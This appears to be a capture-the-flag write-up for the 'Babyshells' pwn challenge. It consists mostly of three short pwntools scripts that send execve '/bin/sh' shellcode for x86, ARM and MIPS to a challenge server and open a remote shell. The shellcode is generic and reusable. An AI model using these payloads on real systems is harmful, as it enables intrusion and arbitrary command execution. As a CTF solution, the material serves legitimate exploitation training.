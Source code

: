 # Babyshells - Pwn
> If you hold a babyshell close to your ear, you can hear a stack getting smashed

In this task we were given three binaries, in x86, ARM and MIPS respectively. All of them jumped into our buffer so we can send the shellcode directly on all three binaries. Then each binary gives one third of the flag. 

x86:
```Python
p=remote("52.30.206.11",7000)
p.recvuntil("> ")
p.sendline("1")
p.recvuntil("gimme: ")
exploit = ""
exploit += "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
p.sendline(exploit)
p.interactive()
```

ARM:
```Python
from pwn import *
 
p=remote("52.30.206.11",7001)
p.recvuntil("> ")
p.sendline("1")
p.recvuntil("gimme: ")
exploit = ""
exploit += "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x92\x1a\x02\x92\x78\x46\x0e\x30\x01\x90\x01\xa9\x04\x1c\x07\x34\x22\x60\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x41\xc0\x46"
p.sendline(exploit)
p.interactive()
```

MIPS:
```Python
from pwn import *
 
p=remote("52.30.206.11",7002)
p.recvuntil("> ")
p.sendline("1")
p.recvuntil("gimme: ")
exploit = ""
exploit += "\x28\x06\xff\xff\x3c\x0f\x2f\x2f\x35\xef\x62\x69\xaf\xaf\xff\xf4\x3c\x0e\x6e\x2f\x35\xce\x73\x68\xaf\xae\xff\xf8\xaf\xa0\xff\xfc\x27\xa4\xff\xf4\x28\x05\xff\xff\x24\x02\x0f\xab\x01\x01\x01\x0c"
p.sendline(exploit)
p.interactive()
```
